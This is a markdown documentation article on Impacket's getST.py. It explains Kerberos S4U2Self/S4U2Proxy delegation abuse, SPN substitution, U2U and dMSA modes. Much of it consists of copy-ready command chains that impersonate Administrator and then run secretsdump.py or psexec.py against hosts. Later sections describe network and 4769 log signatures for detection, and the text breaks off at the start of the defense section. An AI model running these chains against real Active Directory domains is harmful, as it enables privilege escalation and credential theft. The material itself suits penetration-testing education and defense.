


title: "getST.py"
script: "examples/getST.py"
category: "Kerberos Attacks"
status: "Published"
protocols:
  - Kerberos
  - MS-KILE
  - MS-SFU
  - MS-PAC
ms_specs:
  - MS-KILE
  - MS-SFU
  - MS-PAC
  - RFC 4120
  - RFC 4757
mitre_techniques:
  - T1558.003
  - T1550.003
  - T1134.005
  - T1078.002
  - T1098.001
auth_types:
  - password
  - nt_hash
  - aes_key
  - kerberos_ccache
tags:
  - impacket
  - impacket/examples
  - category/kerberos_attacks
  - status/published
  - protocol/kerberos
  - protocol/sfu
  - protocol/pac
  - authentication/kerberos
  - technique/s4u2self
  - technique/s4u2proxy
  - technique/constrained_delegation
  - technique/rbcd
  - technique/spn_substitution
  - technique/u2u
  - technique/dmsa
  - mitre/T1558/003
  - mitre/T1550/003
  - mitre/T1134/005
  - mitre/T1078/002
  - mitre/T1098/001
aliases:
  - getST
  - impacket-getST
  - s4u2self
  - s4u2proxy
  - constrained_delegation_exploit
  - rbcd_exploit


# getST.py

> **One line summary:** Requests Kerberos Service Tickets from a domain controller, including via the S4U2Self and S4U2Proxy extensions, allowing the attacker to obtain a usable Service Ticket impersonating any domain user against any service for which the requesting account is configured for delegation, with extensive support for SPN substitution, cross trust workflows, U2U scenarios, and the new dMSA impersonation feature.

| Field | Value |
|:---|:---|
| Script | `examples/getST.py` |
| Category | Kerberos Attacks |
| Status | Published |
| Primary protocols | Kerberos, MS-SFU |
| Primary Microsoft specifications | `[MS-KILE]`, `[MS-SFU]`, `[MS-PAC]`, RFC 4120, RFC 4757 |
| MITRE ATT&CK techniques | T1558.003 Kerberoasting, T1550.003 Pass the Ticket, T1134.005 SID History Injection, T1078.002 Domain Accounts, T1098.001 Account Manipulation |
| Authentication types supported | Password, NT hash, AES key, Kerberos ccache |
| First appearance in Impacket | 2014 (S4U2Self/S4U2Proxy support added incrementally afterward) |
| Original authors | Alberto Solino (`@agsolino`), with major later contributions from `@ShutdownRepo` (PR #1202 for `-self`/`-altservice`/`-u2u`) and `@fulc2um` (dMSA support) |


## Prerequisites

This article builds on every Kerberos article that came before it:

- [`00_Introduction_and_Architecture.md`](Introduction_and_Architecture.md) for the Impacket stack overview.
- [`smbclient.py`](../05_smb_tools/smbclient.md) for the four authentication modes.
- [`samrdump.py`](../01_recon_and_enumeration/samrdump.md) for the `UserAccountControl` flag table, especially `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` (`0x1000000`) and `NOT_DELEGATED` (`0x100000`).
- [`GetUserSPNs.py`](../01_recon_and_enumeration/GetUserSPNs.md) for the Kerberos foundations.
- [`getTGT.py`](getTGT.md) for the ccache file format, `KRB5CCNAME`, and the `forwardable` flag concept.
- [`ticketer.py`](ticketer.md) for the PAC structure and validation mechanics.
- [`findDelegation.py`](../01_recon_and_enumeration/findDelegation.md) for the delegation taxonomy (Unconstrained, Constrained without/with Protocol Transition, RBCD) and the brief introduction to S4U2Self and S4U2Proxy.

This is the article that exploits everything `findDelegation.py` finds. Read that one first if you have not already.


## What it does

`getST.py` requests a Kerberos Service Ticket from a domain controller and writes it to a ccache file. The simplest invocation does what `kinit -S` does on Linux: ask for a ticket bound to a specific SPN. The interesting invocations exploit the S4U2Self and S4U2Proxy extensions to obtain a Service Ticket impersonating a different user.

The tool covers four primary use cases:

- **Plain Service Ticket request.** Obtain a normal Service Ticket for a specific SPN using the requesting account's own identity. Equivalent to what happens transparently when any Kerberos client accesses a network resource. Useful for ticket caching and for testing.
- **Constrained delegation exploitation.** Use S4U2Self plus S4U2Proxy from an account configured for constrained delegation (with or without protocol transition) to obtain a Service Ticket impersonating an arbitrary user against an allowed target service.
- **Resource based constrained delegation exploitation.** Use S4U2Self plus S4U2Proxy from an account that has been granted delegation rights to a target via the target's `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute. The most common configuration in modern engagements because it is what NTLM relay attacks produce.
- **S4U2Self abuse.** Use S4U2Self alone (no S4U2Proxy) to obtain a Service Ticket impersonating any user against the requesting service itself. Useful when the attacker controls the target service and wants to authenticate as a privileged user against it.

Recent additions extend the tool further:

- **`-altservice` SPN substitution.** Exploits the fact that the SPN field in the ticket returned by S4U2Self is not encrypted. The attacker can rewrite the SPN to expand the effective set of accessible services beyond what `msDS-AllowedToDelegateTo` literally allows.
- **`-additional-ticket` for KCD only delegation.** When constrained delegation without protocol transition is configured, the tool can use a separately obtained forwardable Service Ticket as input to S4U2Proxy.
- **`-u2u` for SPN less RBCD.** James Forshaw's 2022 technique for performing RBCD without needing the requesting account to have an SPN, allowing user account based RBCD even when `MachineAccountQuota` is zero.
- **`-dmsa` for Delegated Managed Service Accounts.** The newest feature, exploiting Microsoft's new dMSA account type to obtain a ticket usable as the superseded account.

The tool generates Kerberos network traffic during ticket requests. Unlike [`ticketer.py`](ticketer.md), which forges tickets entirely offline, `getST.py` always interacts with the KDC. The KDC issues the tickets; the attacker just steers what the KDC issues.


## Why it exists

The S4U2Self and S4U2Proxy operations are core parts of Microsoft's constrained delegation specification (`[MS-SFU]`, originally published in 2007). They were designed to support the legitimate front end / back end web application architecture described in [`findDelegation.py`](../01_recon_and_enumeration/findDelegation.md): a web server authenticates a user through some non Kerberos means (forms based authentication, certificate authentication, claims authentication), then needs to access back end resources on behalf of that user using Kerberos.

The legitimate flow:

1. The web server authenticates the user through forms.
2. The web server uses S4U2Self to obtain a Kerberos Service Ticket to itself, in the user's name. This converts the non Kerberos authentication into a Kerberos identity.
3. The web server uses S4U2Proxy to convert that ticket into a Service Ticket against the back end (typically SQL).
4. The web server presents that Service Ticket to SQL.
5. SQL serves data based on the user's identity.

This works fine when the only entity that can perform S4U2Self plus S4U2Proxy is a legitimately configured front end web server, and when the constraints in `msDS-AllowedToDelegateTo` are tight. The problem is that **anyone who compromises the front end web server's account** can perform exactly the same operation, impersonating any user (including Domain Admins) against any service in the allowed list.

`getST.py` was added to Impacket by Alberto Solino so that this legitimate Kerberos workflow could be performed from any operating system. The attack value was clear from day one: anyone holding the credentials of a delegating account can exploit it. Will Schroeder published the canonical attack writeups (`@harmj0y`, "S4U2Pwnage" and follow ups), and the technique became a staple of red team operations.

The major extensions to the tool came later:

- **PR #1202 by `@ShutdownRepo` (2022)** added `-self`, `-altservice`, and `-u2u`. This was a significant expansion that turned `getST.py` into a general purpose S4U abuse tool rather than just a constrained delegation exploit. The `-altservice` flag in particular was a direct implementation of Alberto Solino's earlier blog post on the SPN substitution behavior.
- **The `-additional-ticket` flag** addressed the gap between constrained delegation with and without protocol transition. The latter requires a real forwardable Service Ticket as input; the new flag accepts that input from a separate ccache file.
- **dMSA support by `@fulc2um`** added exploitation of Microsoft's newest service account type, which has its own impersonation behavior.

The tool exists because Kerberos delegation, designed in the late 1990s and extended in the early 2000s, has aged poorly. The protocol's flexibility was a feature for application architects and is now a liability for security teams. `getST.py` exposes that liability with full automation.


## The protocol theory

The delegation taxonomy is in [`findDelegation.py`](../01_recon_and_enumeration/findDelegation.md). The Kerberos foundations are in [`GetUserSPNs.py`](../01_recon_and_enumeration/GetUserSPNs.md). The PAC is in [`ticketer.py`](ticketer.md). What follows is the specific material on S4U mechanics, the substitution trick, and the modern variations.

### S4U2Self in detail

S4U2Self (Service for User to Self) is documented in `[MS-SFU]` section 3.2.5.1.2. The operation lets a service ask the KDC for a Service Ticket to itself, on behalf of any user the service names. The user does not need to authenticate. The user does not even need to know the request was made.

The request flow:

1. The requesting service holds its own TGT (obtained via normal authentication).
2. The service constructs a `TGS-REQ` containing:
   - The TGT in `additional-tickets` (because S4U2Self technically uses the U2U mechanism internally).
   - The `sname` field set to the requesting service's own SPN.
   - A `padata` field containing a `PA-FOR-USER` structure that names the user being impersonated and includes a checksum proving the request originated from the holder of the TGT.
3. The KDC validates the request. Critically, the KDC checks whether the impersonated user is marked as "Account is sensitive and cannot be delegated" (`NOT_DELEGATED` UAC flag, `0x100000`) or is a member of the `Protected Users` group. If either is true, the request fails (with one notable exception, covered below).
4. The KDC issues a Service Ticket whose target is the requesting service and whose PAC is for the impersonated user.

The forwardable flag on the resulting ticket depends on the requesting account's UAC:

- If the requesting account has `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` (`0x1000000`) set: the resulting ticket **is forwardable**.
- If the requesting account does not have that flag: the resulting ticket is **not forwardable**.

The forwardable flag matters because S4U2Proxy requires its input ticket to be forwardable. So:

- **Constrained delegation with protocol transition** can chain S4U2Self into S4U2Proxy because the S4U2Self result is forwardable.
- **Constrained delegation without protocol transition** cannot, because the S4U2Self result is not forwardable. This is why the without protocol transition mode requires an externally obtained forwardable Service Ticket as input (the `-additional-ticket` use case).
- **Resource based constrained delegation** requires the forwardable flag too, but RBCD does not check for `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` on the requesting account. It uses a different mechanism that produces a forwardable ticket regardless. This is part of why RBCD exploitation is so flexible.

### The Protected Users RID 500 exception

A subtle detail with significant security implications: even when an account is in the Protected Users group, S4U2Self requests for the built in Administrator account (RID 500) are still honored. Sensepost documented this in 2020 and it remains true.

This is essentially a Microsoft compatibility decision. The built in Administrator is treated specially in many places in Active Directory, and the S4U handling is one of them. The practical consequence: even in environments that have aggressively put privileged accounts in Protected Users, the local Administrator account on member servers and the domain Administrator account remain impersonatable through S4U2Self.

The defense is to remove the built in Administrator account from privilege chains entirely, using named admin accounts instead. The built in account becomes a break glass account only.

### S4U2Proxy in detail

S4U2Proxy (Service for User to Proxy) is documented in `[MS-SFU]` section 3.2.5.2. The operation lets a service take a forwardable Service Ticket from a user (obtained either through real Kerberos authentication or through S4U2Self) and exchange it for a Service Ticket against a different service.

The request flow:

1. The requesting service holds its own TGT and a forwardable Service Ticket from (or for) the impersonated user.
2. The service constructs a `TGS-REQ` containing:
   - The forwardable ticket in `additional-tickets`.
   - The `sname` field set to the target service's SPN.
   - The `KDC-OPTIONS` field with the `cname-in-additional-ticket` bit set.
3. The KDC validates the request. It checks:
   - The requesting account's `msDS-AllowedToDelegateTo` attribute (if classic constrained delegation) or the target's `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute (if RBCD).
   - The forwardable flag on the input ticket.
   - That the target service is in the appropriate allow list.
4. The KDC issues a Service Ticket whose target is the requested service and whose PAC is for the user named in the input ticket.

The result is a fully usable Service Ticket. The attacker can then present it to the target service and authenticate as the impersonated user.

### The SPN substitution discovery

Alberto Solino published a blog post in 2019 ("Kerberos Delegation, SPNs and More...") documenting a critical detail: **the `sname` field of a Service Ticket is not part of the encrypted portion of the ticket**.

The implication: an attacker who has obtained a Service Ticket for one SPN (say `cifs/sql01.corp.local`) can rewrite the `sname` field to any other SPN (say `host/sql01.corp.local` or `MSSQLSvc/sql01.corp.local:1433`) and present the modified ticket to the corresponding service. As long as the new SPN is registered to the same account as the original, the target service decrypts the ticket successfully (because the encryption key is the same), reads the PAC, and authenticates the impersonated user.

The practical consequence: `msDS-AllowedToDelegateTo` constraints are much looser than they appear. If the attribute lists `cifs/sql01.corp.local`, the attacker can effectively delegate to any service running under the SQL01 computer account: file shares, registry, scheduled tasks, services control, WMI, even alternative SPNs like `host/sql01.corp.local` that grant general access. This is why a constrained delegation configuration that "only" allows access to one CIFS service often turns into full administrative compromise of the target host.

The `-altservice` flag in `getST.py` automates the substitution. After obtaining the ticket from S4U2Proxy, the tool rewrites the SPN to whatever the attacker specifies and saves the modified ticket.

### Self RBCD (deprecated technique)

Earlier versions of Active Directory allowed an account to write its own `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute and grant delegation rights to itself. This created a one step privilege escalation: an attacker controlling any computer account could grant that same computer account RBCD rights to itself, then perform S4U2Self plus S4U2Proxy to impersonate any user against itself.

Microsoft patched this in 2020 (CVE-2020-16996, KB4577252). The patch enforces that the requesting account in S4U2Proxy must be different from the target account. Self RBCD no longer works against patched systems.

The technique is mentioned here only because older documentation and lab guides still reference it. Against any modern domain it will fail. The replacement is the standard RBCD attack chain involving a separately created computer account.

### U2U (User to User) for SPN less RBCD

James Forshaw documented in 2022 that the SPN requirement on the requesting account in S4U2Self is not strictly mandatory. The Kerberos User to User (U2U) extension allows a service ticket to be encrypted with a user's session key rather than the user's long term key, which permits S4U2Self to work even when the requesting account does not own any SPN.

The practical use case: RBCD attacks normally require the attacker to control a computer account (because the requesting account needs an SPN for the resulting S4U2Self ticket to be forwardable). When `MachineAccountQuota` is set to `0` (the recommended hardening setting), attackers cannot create new computer accounts and the standard RBCD chain is blocked.

The U2U variant lets an attacker use a controlled user account instead. It is less convenient (the user account becomes effectively unusable for normal users while the attack is in progress), but it works against environments that have hardened against the machine account creation step.

The `-u2u` flag in `getST.py` enables this mode. It must be combined with `-self` because U2U S4U2Self produces a non standard ticket that still needs S4U2Proxy in a follow up step.

### Delegated Managed Service Accounts (dMSA)

Delegated Managed Service Accounts are a Server 2025 era account type that supersede traditional service accounts and Group Managed Service Accounts. They were introduced as a hardening measure: dMSAs have automatically managed credentials, can replace existing service accounts in place, and inherit the privileges of the superseded account.

The dMSA attack vector exploits the inheritance behavior. An attacker who can configure or compromise a dMSA can request a ticket that authenticates as the superseded account, gaining whatever privileges that account had.

Impacket added dMSA support to `getST.py` (implementation by `@fulc2um`) shortly after dMSA became available in production environments. The `-dmsa` flag enables the mode. The exploitation requires write access to the dMSA configuration, which is itself a high privilege operation but one that can be obtained through ACL based attack paths.

dMSA exploitation is at the bleeding edge of Active Directory attack research as of 2026. The article documents the flag for completeness but the broader research literature is still developing. Refer to current writeups from Semperis and Akamai for the latest exploitation details.


## How the tool works internally

The script is the longest of the Kerberos Attacks tools because it implements four distinct workflows under one entry point. The high level flow:

1. **Argument parsing.** Standard Impacket target string plus the workflow flags: `-spn`, `-impersonate`, `-self`, `-altservice`, `-u2u`, `-additional-ticket`, `-dmsa`. Authentication flags: `-hashes`, `-aesKey`, `-k`, `-no-pass`, `-dc-ip`, `-dc-host`.

2. **Workflow detection.** The combination of flags determines which path the tool takes:
   - `-impersonate` plus `-spn`: full S4U2Self + S4U2Proxy chain (constrained delegation or RBCD exploitation).
   - `-impersonate` plus `-self`: S4U2Self only (self impersonation use case).
   - `-impersonate` plus `-self` plus `-u2u`: SPN less S4U2Self via U2U (Forshaw's technique).
   - `-impersonate` plus `-spn` plus `-additional-ticket`: S4U2Proxy with externally provided forwardable ticket (KCD without protocol transition).
   - `-spn` only: plain Service Ticket request.
   - `-dmsa`: dMSA mode.

3. **Initial authentication.** The tool first obtains a TGT for the requesting account using whatever credential was supplied. If `-k` was specified and a TGT is already in `KRB5CCNAME`, that ticket is reused.

4. **S4U2Self execution.** If the workflow includes S4U2Self:
   - Build a `TGS-REQ` with the TGT in `additional-tickets`.
   - Construct a `PA-FOR-USER` padata with the impersonated user's name and a HMAC checksum.
   - Send the request, parse the response, extract the resulting Service Ticket.
   - Verify the forwardable flag on the result and warn if it is missing.

5. **S4U2Proxy execution.** If the workflow includes S4U2Proxy:
   - Build a second `TGS-REQ` with the S4U2Self result (or `-additional-ticket` input) in `additional-tickets`.
   - Set `sname` to the target SPN.
   - Set the `cname-in-additional-ticket` KDC option.
   - Send the request, parse the response, extract the resulting Service Ticket.

6. **SPN substitution.** If `-altservice` was supplied:
   - Decode the ASN.1 representation of the ticket.
   - Modify the `sname` field to the alternative SPN.
   - Re encode without re encrypting (the encrypted portion is unchanged).

7. **ccache writing.** A `CCache` object is constructed. The final Service Ticket is added as a `Credential`. The cache is written as `<impersonated_user>.ccache` (or `<requesting_account>.ccache` for plain requests).

8. **U2U variant flow.** When `-u2u` is set, the S4U2Self request includes the `enc-tkt-in-skey` KDC option, which causes the KDC to encrypt the result with the session key from the embedded TGT instead of with the requesting account's long term key. This is what allows accounts without SPNs to obtain forwardable S4U2Self tickets.

9. **dMSA variant flow.** When `-dmsa` is set, the tool uses a different padata structure (`KERB_DMSA_KEY_PACKAGE`) that triggers Microsoft's dMSA processing. The result is a ticket usable as the superseded account.

10. **Error handling.** Several Kerberos errors map to specific delegation misconfigurations. The tool decodes them helpfully:
    - `KDC_ERR_BADOPTION`: target user is in Protected Users or has `NOT_DELEGATED` set.
    - `KDC_ERR_S_PRINCIPAL_UNKNOWN`: target SPN does not exist.
    - `KDC_ERR_C_PRINCIPAL_UNKNOWN`: impersonated user does not exist.
    - `KDC_ERR_BADMATCH`: the requesting account is not allowed to delegate to the target SPN (constraint violation).


## Authentication options

Standard Impacket four mode pattern. See [`smbclient.py`](../05_smb_tools/smbclient.md) and [`getTGT.py`](getTGT.md) for the underlying mechanics.

### Cleartext password

```bash
getST.py -spn cifs/target.corp.local -impersonate Administrator \
  CORP.LOCAL/'WEB01$':'WebPass123!' -dc-ip 10.0.0.10
```

The `WEB01$` is the requesting account (the compromised computer account configured for delegation). The `-impersonate Administrator` flag requests S4U2Self for `Administrator`. The `-spn cifs/target.corp.local` specifies the target service for S4U2Proxy.

### NT hash

```bash
getST.py -spn cifs/target.corp.local -impersonate Administrator \
  -hashes :<web01_machine_nthash> CORP.LOCAL/'WEB01$' -dc-ip 10.0.0.10
```

Computer account hashes are commonly extracted via [`secretsdump.py`](../03_credential_access/secretsdump.md). The `-hashes :<nt>` form is the over pass the hash workflow from [`getTGT.py`](getTGT.md).

### AES key

```bash
getST.py -spn cifs/target.corp.local -impersonate Administrator \
  -aesKey <web01_aes_key> CORP.LOCAL/'WEB01$' -dc-ip 10.0.0.10
```

AES key authentication is stealthier because the resulting tickets use AES encryption types that match modern Windows defaults.

### Kerberos ccache

```bash
export KRB5CCNAME=web01.ccache
getST.py -spn cifs/target.corp.local -impersonate Administrator \
  -k -no-pass CORP.LOCAL/'WEB01$' -dc-ip 10.0.0.10
```

The `-k -no-pass` mode reads the requesting account's TGT from the existing ccache. Useful when chaining tools: `getTGT.py` produces the TGT, then `getST.py` uses it.


## Practical usage

### Plain Service Ticket request

The simplest mode. Obtain a Service Ticket for a specific SPN using the requesting account's own identity:

```bash
getST.py -spn cifs/dc01.corp.local CORP.LOCAL/alice:'S3cret!' \
  -dc-ip 10.0.0.10
```

Output:

```text
[*] Getting TGT for user
[*] Getting ST for user
[*] Saving ticket in alice@cifs_dc01.corp.local@CORP.LOCAL.ccache
```

This is functionally equivalent to `kinit -S` plus a `klist` on a normal Linux Kerberos client. Use it for ticket caching or to verify that delegation is working as expected.

### Constrained delegation with protocol transition exploit

The classic attack. Compromised computer account `WEB01$` is configured for constrained delegation with protocol transition to `cifs/sql01.corp.local`:

```bash
getST.py -spn cifs/sql01.corp.local -impersonate Administrator \
  -hashes :<web01_machine_nthash> CORP.LOCAL/'WEB01$' \
  -dc-ip 10.0.0.10
```

Output:

```text
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_sql01.corp.local@CORP.LOCAL.ccache
```

Then use the ticket:

```bash
export KRB5CCNAME=Administrator@cifs_sql01.corp.local@CORP.LOCAL.ccache
secretsdump.py -k -no-pass CORP.LOCAL/Administrator@sql01.corp.local
```

`secretsdump.py` runs as Administrator against SQL01 because the Service Ticket says so. Domain admin compromise of the SQL server in three commands.

### Constrained delegation without protocol transition exploit

When the requesting account does not have `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION`, the S4U2Self result is not forwardable and S4U2Proxy fails. The workaround: provide a real forwardable Service Ticket from a separate source.

```bash
# First obtain a forwardable ticket from somewhere
# (typically by waiting for or coercing user authentication)
# Save as administrator.ccache

# Then run S4U2Proxy with the additional ticket
getST.py -spn cifs/sql01.corp.local -impersonate Administrator \
  -additional-ticket administrator.ccache \
  -hashes :<web01_machine_nthash> CORP.LOCAL/'WEB01$' \
  -dc-ip 10.0.0.10
```

The tool skips S4U2Self entirely and uses the supplied forwardable ticket as input to S4U2Proxy. This is the workaround for constrained delegation without protocol transition. The catch is that obtaining a forwardable Service Ticket for an arbitrary user is not trivial; in practice attackers often use the RBCD chain instead because RBCD does not need protocol transition.

### Resource based constrained delegation exploit

Modern engagement standard. The chain has three parts: create a computer account, write the RBCD attribute on the target, then exploit.

```bash
# Step 1: Create a computer account (any authenticated user, by default)
addcomputer.py -method SAMR -computer-name 'EVILCOMP$' \
  -computer-pass 'P@ssw0rd123!' \
  CORP.LOCAL/alice:'S3cret!' -dc-ip 10.0.0.10

# Step 2: Write the RBCD attribute on the target
rbcd.py -delegate-from 'EVILCOMP$' -delegate-to 'TARGET$' \
  -action write \
  CORP.LOCAL/alice:'S3cret!' -dc-ip 10.0.0.10

# Step 3: Exploit with getST.py
getST.py -spn cifs/target.corp.local -impersonate Administrator \
  CORP.LOCAL/'EVILCOMP$':'P@ssw0rd123!' -dc-ip 10.0.0.10

# Step 4: Use the ticket
export KRB5CCNAME=Administrator@cifs_target.corp.local@CORP.LOCAL.ccache
psexec.py -k -no-pass CORP.LOCAL/Administrator@target.corp.local
```

The four steps together convert any low privilege domain user into Administrator on any computer the attacker can write the RBCD attribute on. In modern engagements this is one of the most reliable privilege escalation chains.

### SPN substitution

After obtaining a Service Ticket via the constrained delegation or RBCD path, rewrite the SPN to a different service running under the same account:

```bash
getST.py -spn cifs/sql01.corp.local -altservice host/sql01.corp.local \
  -impersonate Administrator \
  -hashes :<web01_machine_nthash> CORP.LOCAL/'WEB01$' \
  -dc-ip 10.0.0.10
```

The resulting ticket is encrypted with the SQL01 computer account's key (because the original SPN was `cifs/sql01`) but the `sname` field now reads `host/sql01.corp.local`. SQL01 will decrypt and accept the ticket because both SPNs are registered to the same account.

This is the technique that turns "constrained delegation to one CIFS service" into "constrained delegation to anything running on that host."

### S4U2Self self impersonation

When the attacker controls the target machine and wants to obtain a ticket impersonating an arbitrary user against the local services on that machine:

```bash
getST.py -self -altservice cifs/win10.corp.local \
  -impersonate Administrator \
  -hashes :<win10_machine_nthash> CORP.LOCAL/'WIN10$' \
  -dc-ip 10.0.0.10
```

The `-self` flag tells the tool to skip S4U2Proxy. The S4U2Self alone produces a Service Ticket targeting the requesting account itself (`WIN10$`), but `-altservice` rewrites it to `cifs/win10.corp.local` (a different SPN owned by the same account). The result is a ticket the attacker can use to authenticate to the local SMB service as Administrator.

This is useful when the attacker has compromised a workstation, has the machine account hash, and wants to authenticate locally as a privileged user without knowing the user's password.

### SPN less RBCD with U2U

When `MachineAccountQuota` is `0` and the standard RBCD chain is blocked, use a controlled user account instead of a controlled computer account:

```bash
# Step 1: Create or compromise a user account with a known credential
# (can be the attacker's own account; the technique renders it unusable
# for normal use during the attack)

# Step 2: Write the RBCD attribute on the target using the user's SID
rbcd.py -delegate-from 'alice' -delegate-to 'TARGET$' \
  -action write \
  CORP.LOCAL/admin:'P@ss' -dc-ip 10.0.0.10

# Step 3: Exploit with -u2u
getST.py -self -u2u -impersonate Administrator \
  -altservice cifs/target.corp.local \
  CORP.LOCAL/alice:'S3cret!' -dc-ip 10.0.0.10
```

The `-u2u` flag enables the User to User Kerberos extension, which allows the S4U2Self result to be forwardable even though `alice` does not own any SPN. The `-altservice` rewrite then targets the target service.

The trade off: the user account `alice` becomes unusable for normal authentication while the attack is in progress because the U2U mechanism interferes with standard ticket caching. After the attack, `alice` returns to normal.

### Cross domain S4U

For attacks that span trust boundaries, target the foreign domain explicitly:

```bash
getST.py -spn 'cifs/dc01.partner.local' -impersonate Administrator \
  -hashes :<web01_machine_nthash> \
  CORP.LOCAL/'WEB01$' -dc-ip 10.0.0.10
```

The KDC handles trust traversal automatically. The resulting ticket is valid against the foreign service. Useful when constrained delegation crosses a trust, which is unusual but does occur in merged organizations.

### dMSA exploitation

Newest mode. Requires write access to the dMSA configuration in the target domain:

```bash
getST.py -dmsa -impersonate 'svc_legacy' \
  CORP.LOCAL/'dmsa_compromised$':'P@ss' -dc-ip 10.0.0.10
```

The exact prerequisites and exploitation flow for dMSA are still evolving. As of 2026 the canonical references are Akamai's research blog and the Semperis dMSA writeups. Test in a lab before relying on this in production engagements.

### Key flags

| Flag | Meaning |
|:---|:---|
| `-spn <SPN>` | Target Service Principal Name. Required for S4U2Proxy and plain ST requests. |
| `-impersonate <user>` | User to impersonate via S4U2Self. |
| `-self` | Stop after S4U2Self; skip S4U2Proxy. |
| `-altservice <SPN>` | Substitute the SPN in the resulting ticket. The SPN substitution trick. |
| `-u2u` | Use User to User extension. Combined with `-self` for SPN less RBCD. |
| `-additional-ticket <ccache>` | Use the supplied forwardable Service Ticket as input to S4U2Proxy. For constrained delegation without protocol transition. |
| `-dmsa` | Use Delegated Managed Service Account exploitation mode. |
| `-target-domain <realm>` | Cross trust target domain. |
| `-hashes`, `-aesKey`, `-k`, `-no-pass` | Standard authentication flags. |
| `-dc-ip`, `-dc-host` | Explicit DC address. |


## What it looks like on the wire

`getST.py` produces a sequence of Kerberos exchanges. The exact pattern depends on which workflow is active.

### Constrained delegation with protocol transition (S4U2Self + S4U2Proxy)

For each invocation:

- **AS-REQ / AS-REP** for the requesting account, if no cached TGT is available. Standard Kerberos initial authentication.
- **TGS-REQ (S4U2Self)** containing the requesting account's TGT in `additional-tickets`, the `PA-FOR-USER` padata identifying the impersonated user, and the requesting account's own SPN in `sname`.
- **TGS-REP (S4U2Self)** returning a Service Ticket for the requesting account, with the impersonated user's PAC inside.
- **TGS-REQ (S4U2Proxy)** containing the S4U2Self result in `additional-tickets`, the target SPN in `sname`, and the `cname-in-additional-ticket` KDC option set.
- **TGS-REP (S4U2Proxy)** returning the final Service Ticket for the target service, with the impersonated user's PAC.

### RBCD

Same network pattern as constrained delegation with protocol transition. The KDC distinguishes the cases internally based on which attribute is set, but the wire traffic looks identical.

### S4U2Self only (`-self`)

- AS-REQ / AS-REP for the requesting account.
- TGS-REQ (S4U2Self).
- TGS-REP (S4U2Self).
- No S4U2Proxy traffic.

### Plain Service Ticket request

- AS-REQ / AS-REP for the requesting account.
- TGS-REQ for the target SPN.
- TGS-REP with the Service Ticket.

### Wireshark filters

```text
kerberos                                   # all Kerberos traffic
kerberos.msg_type == 12                    # TGS-REQ
kerberos.msg_type == 13                    # TGS-REP
kerberos.padata.type == 129                # PA-FOR-USER (S4U2Self)
kerberos.kdc_options.cname_in_addtl_tkt    # S4U2Proxy KDC option
```

Encrypted Kerberos hides the contents but the padata type and KDC options are in the visible portion of the packet. A network monitor that captures Kerberos can reliably identify S4U2Self and S4U2Proxy operations even when SMB is not involved.


## What it looks like in logs

S4U operations produce 4769 events with distinctive characteristics that distinguish them from ordinary Kerberos use.

### Event ID 4769: Kerberos Service Ticket Operations

For S4U2Self, the relevant fields:

| Field | Value |
|:---|:---|
| `TargetUserName` | The impersonated user's name (NOT the requesting account). |
| `ServiceName` | The requesting account's own SPN (because S4U2Self requests a ticket to itself). |
| `TransitedServices` | Empty for S4U2Self alone; populated for S4U2Proxy. |
| `TicketEncryptionType` | The encryption type of the resulting ticket. |
| `LogonGUID` | New for each request. |

For S4U2Proxy, the same event fires with different field values:

| Field | Value |
|:---|:---|
| `TargetUserName` | The impersonated user's name. |
| `ServiceName` | The target SPN (for example `cifs/sql01`). |
| `TransitedServices` | **Populated** with the requesting account's SPN. This is the canonical S4U2Proxy signal. |

The `TransitedServices` field is the critical detection signal for S4U2Proxy. Ordinary Kerberos service ticket requests have an empty `TransitedServices` field. S4U2Proxy requests do not. A 4769 event with a populated `TransitedServices` field is, by definition, a delegation operation.

### Multi event chain pattern

A complete S4U2Self plus S4U2Proxy operation produces two consecutive 4769 events from the same source within milliseconds of each other. The first has empty `TransitedServices` and the requesting account in `ServiceName`. The second has the requesting account in `TransitedServices` and the actual target SPN in `ServiceName`. Detection rules that look for this pair pattern catch the attack reliably.

### Common errors

| Error | Meaning |
|:---|:---|
| `KDC_ERR_BADOPTION` | The impersonated user is in Protected Users or has `NOT_DELEGATED` set. The KDC refuses to issue the forwardable ticket. |
| `KDC_ERR_S_PRINCIPAL_UNKNOWN` | The target SPN does not exist or is malformed. |
| `KDC_ERR_C_PRINCIPAL_UNKNOWN` | The impersonated user does not exist. |
| `KDC_ERR_BADMATCH` | The constraints in `msDS-AllowedToDelegateTo` (or RBCD attribute) do not allow the request. |

In log form, these appear in 4769 events with non zero `Status` values and corresponding `FailureCode` entries.


## Detection and defense

### Detection opportunities

S4U operations have higher fidelity detection signals than most Kerberos attacks because the `TransitedServices` field is so specific.

